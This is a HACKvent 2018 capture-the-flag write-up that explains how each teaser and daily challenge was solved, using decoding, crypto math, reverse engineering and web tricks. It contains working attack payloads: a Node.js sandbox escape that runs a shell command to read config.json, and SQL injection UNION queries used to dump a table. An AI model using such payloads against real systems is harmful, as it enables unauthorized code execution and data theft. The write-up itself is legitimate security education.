


# HACKvent 2018

## Teaser

### -10

The first image looks like Braille.


When decoding it we get a bit.ly link.
The QR code on the website says "rushed by ...". So we must have missed something.
When going back to the bit.ly link there are two redirects happening. The first Location contains
`https://hackvent.hacking-lab.com/T34s3r_MMXVIII/index.php?flag=UI18-GAUa-lXhq-htyV-w2Wr-0yiV`
ROT13 decoding the flag parameters gives the first flag.

### -9

When entering the flag -10 as parameter in the previous link we get a PDF.
Using `pdftotext`we get a morse code

```
.... ...- .---- ---.. -....- --. --- .-. .. -....- --.. .-. ... -... -....- ..- ..-. .- . -....- - ... -.... -.-. -....- -.-. ...- - -
```

Decoding the morse code reveals the next flag.

### -8

The next flag was hidden inside one of the images of the PDF. The images can be extracted with: `pdfimages -png teaser.pdf images/`
One of the images looks like an autostereogram. [This site](http://magiceye.ecksdee.co.uk/) revealed the correct QR code.

### -7

When using `binwalk -e teaser.pdf` we get several files. One file was named `Q3RC.png`. After some searching I came
across a [writeup](https://github.com/shiltemann/CTF-writeups-public/blob/master/Hackvent_2015/writeup.md#dec-17-santas-quick-response)
of the 17th day of the HACKvent 2015.

So the QR code uses three bits as an encoding isntead of the normal two bits. With the help of the writeup I decoded the message by hand.

### -6

The PDF contained a file named `Santa.txt`. It states that Santa now uses encrypted communications and that the key is
reindeer name. It was clear that it must be a transposition cipher because the ciphertext already contained the flag "structure".
Using cryptool I tried a simple transposition with every name but that didn't work. Two names stood out "Donder" and
"Blitzen". Those two were written in the german spelling. When trying a double permutation with those names we get the
correct text and the flag.



### -5

The PDF contained a file named `teaser.pls`. The file contains wrapped PL/SQL code. The wrapping is there to protect the
source code but it can easily be reverted.  Using this [tool](https://codecrete.net/UnwrapIt/)reveals the unwrapped
source code. The function takes a flag as a parameter and checks if it's valid.

```sql
FUNCTION checkHV18teaser(FLAG VARCHAR2) RETURN NUMBER IS
	A VARCHAR2(4);
	B NUMBER(10);
	C NUMBER(10);
	H VARCHAR(40);
BEGIN
	A := SUBSTR(FLAG,1,4);
	IF NOT (A = 'HV18') THEN
		RETURN 0;
	END IF;
	
	B := TO_NUMBER(SUBSTR(FLAG,6,2));
	C := TO_NUMBER(SUBSTR(FLAG,8,2));
	IF NOT (((B * C) = 6497) AND (B < C)) THEN
		RETURN 0;
	END IF;
	
	A := SUBSTR(FLAG,11,4);
	SELECT STANDARD_HASH(A, 'MD5') INTO H FROM DUAL;
	IF NOT (H = 'CF945B5A36D1D3E68FFF78829CC8DBF6') THEN	
	RETURN 0;
	END IF;
	
	IF NOT ((UTL_RAW.CAST_TO_VARCHAR2(UTL_RAW.BIT_XOR (UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,16,4)), UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,21,4)))) = 'zvru') AND (TO_NUMBER(SUBSTR(FLAG,21,4)) = SQRT(8814961))) THEN
		RETURN 0;
	END IF;
	
	IF NOT ( UTL_RAW.CAST_TO_VARCHAR2(UTL_ENCODE.BASE64_ENCODE(UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,26,4)))) = 'RjBtMA==') THEN
		RETURN 0;
	END IF;
	
	DBMS_OUTPUT.PUT_LINE(A);
	RETURN 1;
END;
```

The first part of the flag consists of two number that, when multiplied result in 6497.
Using an online number factorizer we get B = 73and C = 89.

The second part of the flag is md5 hashed and has to be equal to `CF945B5A36D1D3E68FFF78829CC8DBF6`. A reverse lookup
shows that this part has to be `H0b0`.

The fourth part of the flag is the square root of 8814961. So it has to be 2969

The third part of the flag is XORed with the fourth one to result in 'zvru'.
Now we can XOR 'zvru' with '2969' to get the third part.

The fifth part of the flag is base64 encoded. When decoding it we get `F0m0`.

Putting it all together we get the flag:
HV18-7389-H0b0-H0DL-2969-F0m0

### -4

The PDF contained a file named `old_school.jpg`. It showed a punchcard and had a small hint "IBM-029" on it.  With the help of this
[image](https://en.wikipedia.org/wiki/Keypunch#/media/File:Blue-punch-card-front-horiz_top-char-contrast-stretched.png)
the decoding was quite easy.

### -3

This one was quite difficult to find. The command `unrar vta 39A25.rar`showed that one of the RAR files hidden inside
the PDF contained an NTFS alternate data stream. 

```
       Name: STM
       Type: NTFS alternate data stream
     Target: :quickresponse.txt
       Size: 625
Packed size: 142
      Ratio: 22%
      mtime: 2018-12-03 02:15:08,000000000
 Attributes: .B
      CRC32: 993E3536
    Host OS: Windows
Compression: RAR 3.0(v29) -m3 -md=64K
```

Unpacking the rar on Windows and opening the data stream gives us a sequence of 0 and 1. The sequence has a length of
625 characters so it's probably a 25x25 QR code. With the help of [this site](https://www.dcode.fr/binary-image) the QR code can be
restored.

### -2

Inside the PDF was a password protected ZIP file named `z.zip`. After some trial and error I realized that the password
was only one character. The ZIP file contains another password protected ZIP file.

I wrote a small Java program that bruteforces the one character passwords. Inside the password was a flag and the final
zip file contained a file named `xenon.elf`.

```java
private static final List<String> alphabet = Arrays.asList(" .abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ01234567890-,".split(""));

public static void main(String[] args) throws ZipException {
    String source = "z.zip";
    String destination = "out";

    while (true) {
        for (String current : alphabet) {
            ZipFile zipFile = new ZipFile(source);
            zipFile.setPassword(current.toCharArray());

            try {
                zipFile.extractFile(source, destination);
            } catch (ZipException e) {
                continue;
            }

            System.out.print(current);

            File theOne = new File(destination, source);
            theOne.renameTo(new File(source));
        }
    }
}
```

### -1

This challenge was a though one. The last ZIP file from the challenge -2 contained a file named `xenon.elf`. Using
`file` it was clear that this file was a PowerPC binary and the name suggested that it's for a XCPU used by the Xbox
360.

Radare2 revealed calls to a RC4 encryption function. So now it's all about finding the ciphertext and the corresponding key.
Whilst trying to find the ciphertext I came across the following strings, they will be important later on:


The ciphertext is first read from .rodata and then written to memory. The order of the bytes remains unchanged and the
ciphertext can be found at address `8001EA24`:

```
5e93 c8d4 c4e9 5e36 b155 144a be83 c90a dc2b c5f0 8fab bbac 49dd 0f01 97f6 668b 07a0 b443 0a48
```

At the beginning of the main function those instructions can be found:

```
li r3, 0
bl sym.xenon_secotp_read_line
mr r8, r4

li r3, 1
bl sym.xenon_secotp_read_line
```

They load the values of the fuseset `0` and `1` into `r8` and `r4` respectively. Here it's important to use the devkit values
for fuseset `1` which can be found [here](https://github.com/Free60Project/wiki/blob/master/Fusesets.md). That's what the
string above tried to tell us. So the registers now look like this:

```
r8 = C0FFFFFFFFFFFFFF
r4 = 0F0F0F0F0F0F0F0F
```

The following instructions create the key:

```
srawi r7, r9, 1
addze r7, r7
addi r10, r1, 0x150
subfic r7, r7, 7
slwi r7, r7, 3
srd r6, r8, r7
srd r7, r4, r7
stbux r6, r10, r9
addi r9, r9, 2
stb r7, 1(r10)
```

I translated them to pseudocode:

```c
for (int i = 0; i < 16; i += 2) {
    r7 = 8 * (7 - (i / 2));

    *(key + i) = r8 >> r7;
    *(key + i + 1)= r4 >> r7;
}
```

This just intertwines the two fusekit values. The final key is therefore: `C00FFF0FFF0FFF0FFF0FFF0FFF0FFF0F`
Now the ciphertext can be decripted.

## Easy

### Day 01: Just Another Bar Code

Googling for "Just another bar code" we quickly find the [JAB Code](https://jabcode.org/). We decode the image and get
the flag.

### Day 02: Me

In this challenge we get a sequence of numbers:
```
115 112 122 127 113 132 124 110 107 106 124 124 105 111 104 105 115 126 124 103 101 131 124 104 116 111 121 107 103 131
124 104 115 122 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 113 116 121 121 107
103 131 124 104 115 122 123 127 115 63 112 101 115 106 125 127 131 111 104 103 115 116 123 127 115 132 132 122 115 64
132 103 101 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 113 111 104 102 115 122 126 107 127 111 104 103
115 116 126 103 101 132 114 107 115 64 131 127 125 63 112 101 115 64 131 127 117 115 122 101 115 106 122 107 107 132 104
106 105 102 123 127 115 132 132 122 116 112 127 123 101 131 114 104 115 122 124 124 105 62 102 101 115 106 122 107 107
132 104 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122
107 113 132 124 110 107 106 124 124 105 111 104 102 115 122 123 127 115 132 132 122 115 64 132 103 101 131 114 103 115
116 123 107 117 115 124 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122
101 115 106 122 107 107 132 104 106 105 102 121 127 105 132 114 107 115 64 131 127 117 115 122 101 115 112 122 127 111
132 114 107 105 101 75 75 75 75 75 75
```

The `75`s at the end could be equal signs of a base64 encoding. When checking an ASCII table we can see that `75` is the
octal representation of =. Decoding the numbers gives us:

```
MJRWKZTHGFTTEIDEMVTCAYTDNIQGCYTDMRSWMZZRM4ZCAZZRM4ZCAYLKNQQGCYTDMRSWM3JAMFUWYIDCMNSWMZZRM4ZCAZZRM4ZCAYLCMNSGKIDBMRVGWIDCMNVCAZLGM4YWU3JAM4YWOMRAMFRGGZDFEBSWMZZRNJWSAYLDMRTTE2BAMFRGGZDJNQQGOMLHGIQGCY3EMVTGOMRAMFRGKZTHGFTTEIDBMRSWMZZRM4ZCAYLCMNSGOMTJNQQGOMLHGIQGCY3EMVTGOMRAMFRGGZDFEBQWEZLGM4YWOMRAMJRWIZLGEA======
```

Base64 doesn't seem to work so we try Base32 and get:

```
bcefg1g2 def bcj abcdefg1g2 g1g2 ajl abcdefm ail bcefg1g2 g1g2 abcde adjk bcj efg1jm g1g2 abcde efg1jm acdg2h abcdil
g1g2 acdefg2 abefg1g2 adefg1g2 abcdg2il g1g2 acdefg2 abcde abefg1g2 bcdef
```

Using this [14 segment display scheme](http://kryptografie.de/kryptografie/chiffre/images/14-Segment.png) we can now decode
the message and get the flag.

### Day 03: Catch me

In this challenge we have to catch a button but it always gets away when we get near it.
Using the developer console we can simulate a button click and get the flag:

```
$('button').click()
```

### Day 04: pirating like in the 90ies

In this challenge we have to find the correct numbers to get the flag.


When searching for the names (Nebraska, Tortuga, Antigua, Jamaica, St.Kitts, Barbados, Montserrat) we come across "The
Secret of Monkey Island". The early releases of this game came with a copy-protection in the form of a cardboard wheel.
With this it was clear what we had to do.

Using this [tool](https://www.oldgames.sk/docs/Dial-A-Pirate/) we had to align the upper and lower half of the head and
then read from the correct name to get the number.

### Day 05: OSINT 1

The subtitle of this challenge was _It's all about transparency_. We had to check the certificate transparency logs. To
do this I used [this site](https://transparencyreport.google.com/https/certificates) and entered `hackvent.org`. This
revealed another subdomain `osintiscoolisntit.hackvent.org` which contained the flag.

### Day 06: Mondrian

In this challenge we get to see the art gallery of [Piet Mondrian](https://en.wikipedia.org/wiki/Piet_Mondrian).


Unfortunately he doesn't sell his artwork. But it turns out that the paintings are also valid programs written in the
[Piet programming language](https://en.wikipedia.org/wiki/Esoteric_programming_language#Piet). Using the [npiet
online interpreter](https://www.bertnase.de/npiet/npiet-execute.php) we can run the programs/paintings to get the flag.

### Day 07: flappy.pl

We get the following Perl code:

```perl
use Term::ReadKey; sub k {ReadKey(-1)}; ReadMode 3;
sub rk {$Q='';$Q.=$QQ while($QQ=k());$Q}; $|=1;
print "\ec\e[0;0r\e[4242;1H\e[6n\e[1;1H";
($p .= $c) until (($c=k()) eq 'R'); $x=75;$dx=3;
(($yy) = ($p =~ /(\d+);/))&&($yy-=10);
print (("\r\n\e[40m\e[37m#".(' 'x78)."#")x100);
$r=(sub {$M=shift; sub {$M=(($M*0x41C64E6D)+12345)&0x7FFFFFFF;$M%shift;}})
->(42);$s=(sub {select($HV18, $faLL, $D33p, shift);});$INT0?$H3ll:$PERL;
@HASH=unpack("C*",pack("H*",'73740c12387652487105575346620e6c55655e1b4b6b6f541a6b2d7275'));
for $i(0..666){$s->(0.1);print("\e[40;91m\e[${yy};${x}H.");
$dx += int(rk() =~ / /g)*2-1; $dx = ($dx>3?3:($dx<-3?-3:$dx));
$x += $dx; ($x>1&&$x<80)||last;
(($i%23)&&print ("\e[4242;1H\n\e[40m\e[37m#".(' 'x78)."#"))||
(($h=20+$r->(42))&&(print ("\e[4242;1H\n\e[40m\e[37m#".
((chr($HASH[$i/23]^$h))x($h-5)).(" "x10).((chr($HASH[$i/23]^$h))x(73-$h))."#")));
(($i+13)%23)?42:((abs($x-$h)<6)||last);
print ("\e[${yy};${x}H\e[41m\e[37m@");
}; ReadMode 1;###################-EOF-flappy.pl###############
```

The code seems to use the variable $x for the height and $dx for the change in height (delta x). So this part seems
important: `(abs($x-$h)<6)`. It checks if x is in the interval [h - 6; h + 6]. This is the collision detection of the
game. If we change the 6 to a higher number we can fly through the walls.

## Medium

### Day 08: Advent Snail

In this challenge we get a scrambled picture and we have to reverse it to get a valid QR code. The name of the challenge
hints at a spiral pattern. After trying to read the pixels from the upper left corner I tried to read them from the
center. This worked quite well.

```java
private static boolean[][] loadPixelsFromImage(File file) throws IOException {
    BufferedImage image = ImageIO.read(file);
    boolean[][] colours = new boolean[25][25];

    for (int x = 0; x < 25; x++) {
        for (int y = 0; y < 25; y++) {
            int colour = image.getRGB(x, y);

            if (colour == -14803426) {
                colours[x][y] = true; // black pixel
            } else if (colour == -263173) {
                colours[x][y] = false; // white pixel
            } else {
                throw new IllegalArgumentException("Unknown colour at position (" + x + ", " + y + ")");
            }
        }
    }

    return colours;
}

private static List<Point> generateSnailPattern() {
    List<Point> points = new ArrayList<>();
    int x = 12, y = 12;
    int distance = 1;
    
    points.add(new Point(x, y));

    while (distance != 27) {
        for (int i = 0; i < distance; i++) {
            y--;
            points.add(new Point(x, y));
        }

        for (int i = 0; i < distance; i++) {
            x++;
            points.add(new Point(x, y));
        }

        distance++;

        for (int i = 0; i < distance; i++) {
            y++;
            points.add(new Point(x, y));
        }

        for (int i = 0; i < distance; i++) {
            x--;
            points.add(new Point(x, y));
        }

        distance++;
    }

    // Remove superfluous points
    points.removeIf(p -> p.x < 0 || p.y < 0 || p.x > 24 || p.y > 24);

    return points;
}

private static void reassemble(List<Point> order, boolean[][] colors) throws IOException {
    BufferedImage b = new BufferedImage(25, 25, BufferedImage.TYPE_INT_RGB);
    int x = 0, y = 0;

    while (!order.isEmpty()) {
        Point pos = order.remove(0);
        b.setRGB(x, y, colors[pos.x][pos.y] ? 0 : 16777215);

        if (++x == 25) {
            x = 0;
            y++;
        }
    }

    ImageIO.write(b, "png", new File("unsnailed.png"));
}

public static void main(String[] args) throws IOException {
    reassemble(generateSnailPattern(), loadPixelsFromImage(new File("snail.png")));
}
```

### Day 09: fake xmass balls

The challenge descriptions says that we should compare the fake xmass ball with a real one. If we diff the images we get
a QR code.

```
compare real.png fake.png -compose src diff.png
```

### Day 10: >_ Run, Node, Run

In this challenge we can run JavaScript in a sandbox environment. The NodeJS server uses the following code:

```javascript
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();

app.use(require('body-parser').urlencoded({ extended: false }));

app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));

app.post("/run", (req, res) => {

	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}

	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

});

app.listen(port);
```

The goal is to read the contents of the `config.json`. We won't be able to find the correct variable name because of the
randomstring part. So we have to break out of this sandbox. We can check the GitHub Issues if there's a way to
accomplish this. And of course [there's a way](https://github.com/gf3/sandbox/issues/50). Now we just have to craft a
malicious input:

```javascript
new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("child_process").execSync("cat config.json")
```

### Day 10: Crypt-o-Math 3.0

We get the following formulas and values:

```
c = (a * b) % p
c = 0x7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2
p = 0xDD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9
b = 0x7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5
```

We have to find a. I remembered reading about this in last years writeup.
To solve the equation we can rewrite it:

`c * b^-1 mod p = a`

The following Java code solves the equation:

```java
BigInteger c = new BigInteger("7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2", 16);
BigInteger p = new BigInteger("DD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9", 16);
BigInteger b = new BigInteger("7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5",16);

BigInteger bInverse = b.modInverse(p);
BigInteger a = c.multiply(bInverse).mod(p);
```

This a doesn't give a valid flag when decoding it to ASCII. So I assumed that we have to take a different solution for
a. I wrote a program that gets me other valid solutions for a and checked if they start with HV

```java
BigInteger c = new BigInteger("7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2", 16);
BigInteger p = new BigInteger("DD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9", 16);
BigInteger b = new BigInteger("7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5",16);

BigInteger bInverse = b.modInverse(p);
BigInteger a = c.multiply(bInverse).mod(p);

int i = 1;
while (true) {
    BigInteger current = new BigInteger(a.toString());

    for (int j = 0; j < i; j++)  {
        current = current.add(p);
    }

    if (current.toString(16).startsWith("4856")) {
        System.out.println(current.toString(16));
        return;
    }

    i++;
}
```

After 1337 iterations I found a new solution which was the correct flag.

### Day 12: SmartWishList

For this challenge we get a Telegram bot. We can add wishes and show our current wish list. When adding wishes with to
many characters we get an SQL error. So it was obvious that we have to do an SQL injection. After some trial and error I
realized that it's possible to inject SQL by changing the first/lastname in Telegram.
Changing the name to `'UNION SELECT table_name, 1 FROM information_schema.tables #` revealed the `SecretStore` table.
Now we can just select the flag from this table by changing the name to `'UNION SELECT flag, 1 FROM SecretStore #`.


### Day 13: flappy's revenge

This time flappy bird runs on a server and we can't ignore collisions that easily. I tried solving it by sending the
correct amount of spacebar presses to the server. This didn't really work so I solved it by playing it.

### Day 14: power in the shell

We get this powershell script and the encrypt flag `2A4C9AA52257B56837369D5DD7019451C0EC04427EB95EB741D0273D55`:

```powershell
. "$PSScriptRoot\flag.ps1" #thumbprint 1398ED7F59A62962D5A47DD0D32B71156DD6AF6B46BEA949976331B8E1

if ($PSVersionTable.PSVersion.Major -gt 2)
{
    $m = [System.Numerics.BigInteger]::Parse($flag, 'AllowHexSpecifier');
    $n = [System.Numerics.BigInteger]::Parse("0D8A7A45D9BE42BB3F03F710CF105628E8080F6105224612481908DC721", 'AllowHexSpecifier');
    $c = [System.Numerics.BigInteger]::ModPow($m, 1+1, $n)
    write-host "encrypted flag:" $c.ToString("X");
}
```

We can write this as an equation `encrypted_flag = m^2 % n`. Now we have to find m. Using the [quadratic modular
equation solver](https://www.alpertron.com.ar/QUADMOD.HTM) this equation can be solved easily.



The third solution gives us the correct flag when decoded to ASCII.

### Day 15: Watch Me

In this challenge we get an ipa file. When we unzip it we get an Mach-O executable.
When looking at the code we can see calls to `AES128DecryptedDataWithKey`. Now we have to find the ciphertext and the
key that is used in the decryption.

To do this I first searched through all the strings. In radare2 this is done by using `iZ`. Now we get the following
list of strings:

```
0x1000080a0 0x1000080a0  44  45 () ascii cstr.xQ34V+MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw=
0x1000080c0 0x1000080c0   6   7 () ascii cstr.%@\n\n%@
0x1000080e0 0x1000080e0  37  38 () ascii cstr.HACKvent 2018 - now on your Apple TV!
```

The first one looks like base64. Now we can search the instructions that use this string `/c 0x1000080a0`:

```
0x100006410   # 4: adr x1, str.cstr.xQ34V_MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw
```

So the instruction at `0x100006410` uses the base64 encoded data. We can go to this position using `s 0x100006410` and
print the instructions using `pdf`.

```
ldrsw x8, sym.field_int_ViewController::flag
add x0, x19, x8
adr x1, str.cstr.xQ34V_MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw
bl sym.imp.objc_storeStrong
```

This stores the base64 encoded data at x19 + x8, a field named flag. Then these instructions get executed:

```
ldr x1, str.decryptFlag
mov x0, x19
bl sym.imp.objc_msgSend 
```

This calls the decrypt function where x19 is passed as the first parameter. In this function the key gets constructed.
The relevant instructions for this are:

```
0x10000658c      mov x0, sp
0x100006590      bl sym.imp.strlen
0x100006594      cbz x0, 0x1000065d8
0x100006598      orr w8, wzr, 0x78
0x10000659c      strb w8, [sp]
0x1000065a0      mov x20, sp
0x1000065a4      mov x0, sp
0x1000065a8      bl sym.imp.strlen
0x1000065ac      cmp x0, 2
0x1000065b0      b.lo 0x1000065d8
0x1000065b4      orr w21, wzr, 1
0x1000065b8      ldrb w8, [x20, x21]
0x1000065bc      add w8, w8, 3
0x1000065c0      strb w8, [x20, x21]
0x1000065c4      add x21, x21, 1
0x1000065c8      mov x0, sp
0x1000065cc      bl sym.imp.strlen
0x1000065d0      cmp x0, x21
0x1000065d4      b.hi 0x1000065b8
```

`sp` is the encrypted string. We can find the encrypted data by going to the address `s 0x100007efa` and printing a hex dump `x`:

```
0x100007efa  7551 415c 2d6e 4d40 3d31 776c 1e62 4e21  uQA\-nM@=1wl.bN! 
```

Reversing the key generation we get the following Java code:

```java
byte[] key = new byte[] { 0x75, 0x51, 0x41, 0x5C, 0x2D, 0x6E, 0x4d, 0x40, 0x3D, 0x31, 0x77, 0x6C, 0x1E, 0x62, 0x4E, 0x21 };

key[0] = 120;
int v3 = 1;

do {
    key[v3++] += 3;
} while (key.length > v3);
```

And now we can simply decrypt the ciphertext:

```java
Cipher cipher = Cipher.getInstance("AES/ECB/NOPADDING");
cipher.init(Cipher.DECRYPT_MODE, new SecretKeySpec(key, "AES"));

byte[] cipherText = Base64.getDecoder().decode("xQ34V+MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw=");
byte[] result = cipher.doFinal(cipherText);

System.out.println(new String(result));
```

### Day 16: Pay 100 Bitcoins

In this challenge we get an ova file that has been infected by the ransomware Petya. The bootloader has been overwritten
and when booting it the master file table will be encrypted. Our goal is to safe the data and find the flag. We also
know that the OS is encrypted with the password `IWillNeverGetAVirus`.

With `tar-xvf HACKvent_thx_awesome_1n1k.ova` we extract the vmdk file and then we mount it. Then we have to decrypt the
volume using `cryptsetup`. Now we can access the files and get the flag.

### Day 17: Faster KEy Exchange

In this challenge we get a python program that performs a key exchange. Furthermore we know the parameters that were
used and the message that was transmitted:

```
a = 17577019968135092891915317246036083578063875217491307011102321322815719709605741738459191569497548099944025771002530369133716621942963853230082186943938164591230020725702755002287589522851172217336150522367152517270250629688405924844750026155547199020780202996200555426652190631837288299999083335649923708175859594750237448640513280683859296367607523542293538555215282798100455110266565881599829107971869244773384413618546118850868579583095489023778055976570366853411496753062216229293710557686212314300848121614558806328788578096144576605248971916454783615989429937555579437307320472405217413938048149254574677430624
b = 15228628318558071728245462802366236848375416102820239825350329247148900182647243994904519787528142824353837070194785550898962097219309344881183948914850354340893035399529028331238911753358245357848436203268982345430735846016484221944423499956958406189854969330305125479065873712331269870135028162018087451460656203085824963123310757985362748654204595136594184636862693563510767025800252822776154986386637346156842972134635578534633722315375292616298410141343725683471387328655106920310236007034951004329720717533666052625540760911360823548318810161367913281234234193760867208897459774865037319252137821553407707977377
message = jqMYIn4fzSqzIXArwJm/kPitNhf4lwhL0yPRKpF+NYXyPmhoEwNG/k2L5vCZqFWNPvTzisnu93/8uK/PZnnCGg== 
```

The server uses those formulas to calculate the key:

```
key = b * x mod p
a = g * x mod p
```

We only know a, b, g and p but to calculate the key we need x. To find x we can rearrange the second formula:

```
a * g^-1 = x mod p
```

Now we can calulcate the key directly:

```
key = b * a * g^-1 mod p
```

The following Java program calculates the key and decrypts the message:
```java
public static void main(String[] args) throws Exception {
    BigInteger g = new BigInteger("3");
    BigInteger p = new BigInteger("28485108048483664993555355548035280166222198895946001666176121626771296893249218737525397077847205668764480554612368693880365185901557208043000358783461327101490457849680507507328413906935238470600946894126028970738464658429417189298670225371208820807229458233765994963670464288033097820224657998869577152100773636751931664064681999115918785970221555076712326560102320184503893421537140609300213936571475982401475428083617012249514547394698764059628437049495276392667030591072895287238072475746662904967506303623654151867511895994963725102852006831097845186247182085468334772849374015522514204172587601623615066592937");

    BigInteger a = new BigInteger("17577019968135092891915317246036083578063875217491307011102321322815719709605741738459191569497548099944025771002530369133716621942963853230082186943938164591230020725702755002287589522851172217336150522367152517270250629688405924844750026155547199020780202996200555426652190631837288299999083335649923708175859594750237448640513280683859296367607523542293538555215282798100455110266565881599829107971869244773384413618546118850868579583095489023778055976570366853411496753062216229293710557686212314300848121614558806328788578096144576605248971916454783615989429937555579437307320472405217413938048149254574677430624");
    BigInteger b = new BigInteger("15228628318558071728245462802366236848375416102820239825350329247148900182647243994904519787528142824353837070194785550898962097219309344881183948914850354340893035399529028331238911753358245357848436203268982345430735846016484221944423499956958406189854969330305125479065873712331269870135028162018087451460656203085824963123310757985362748654204595136594184636862693563510767025800252822776154986386637346156842972134635578534633722315375292616298410141343725683471387328655106920310236007034951004329720717533666052625540760911360823548318810161367913281234234193760867208897459774865037319252137821553407707977377");

    BigInteger x = a.multiply(g.modInverse(p));
    String key = b.multiply(x).mod(p).toString();

    byte[] hashedKey = MessageDigest.getInstance("MD5").digest(key.getBytes());
    SecretKey aesKey = new SecretKeySpec(bytesToHexString(hashedKey).getBytes(), "AES");

    Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
    cipher.init(Cipher.DECRYPT_MODE, aesKey, new IvParameterSpec(key.substring(0, 16).getBytes()));

    byte[] cipherText = Base64.getDecoder().decode("jqMYIn4fzSqzIXArwJm/kPitNhf4lwhL0yPRKpF+NYXyPmhoEwNG/k2L5vCZqFWNPvTzisnu93/8uK/PZnnCGg==");
    byte[] clearText = cipher.doFinal(cipherText);

    System.out.println(new String(clearText));
}

private static String bytesToHexString(byte[] bytes) {
    StringBuilder out = new StringBuilder();

    for (byte aByte : bytes) {
        out.append(String.format("%02x", aByte));
    }

    return out.toString();
}
```

### Day 18: Be Evil

For this challenge we get a jar file. When decompiled with CFR we get several classes. All of them consist of a single
static byte array except from Evilist and EvilLoader:

```java
public class Evilist {
    public static void main(String[] args) throws Exception {
        EvilLoader evilLoader = new EvilLoader(Evilist.class.getClassLoader());

        EvilLoader loader = new EvilLoader(Evilist.class.getClassLoader());
        Class<?> clazz = loader.loadClass("hackvent2018.evil.EvilWindow");
        clazz.newInstance();
    }
}

public class EvilLoader extends ClassLoader {

    EvilLoader(ClassLoader parent) {
	super(parent);
    }

    private Class getClass(String name) throws ClassNotFoundException {
        byte[] b = loadEvilClass(name);
        return defineClass(name, b, 0, b.length);
    }

    public Class<?> loadClass(String name) throws ClassNotFoundException {
        try {
            return getClass(name);
        } catch (ClassFormatError cfe) {
            return super.loadClass(name);
        } catch (ClassNotFoundException cnfe) {}

        return super.loadClass(name);
    }

    private byte[] loadEvilClass(String name) throws ClassNotFoundException {
        Class clazz = EvilLoader.class.getClassLoader().loadClass(name);
        try {
            return (byte[])clazz.getField("b").get(clazz);

        } catch (IllegalArgumentException|IllegalAccessException|NoSuchFieldException|SecurityException|ClassFormatError e1) {
            throw new ClassNotFoundException(e1.toString());
        }
    }
}
```

As soon as a class gets loaded the `loadEvilClass`gets called. This method loads the real class first and then returns
the byte array `b` of the class. So what we have here are bytes of the java class format. We can now use those to get
the effective classes that are loaded at runtime.

The decoded EvilEvent class contains this Java code:

```java
public class EvilEvent {
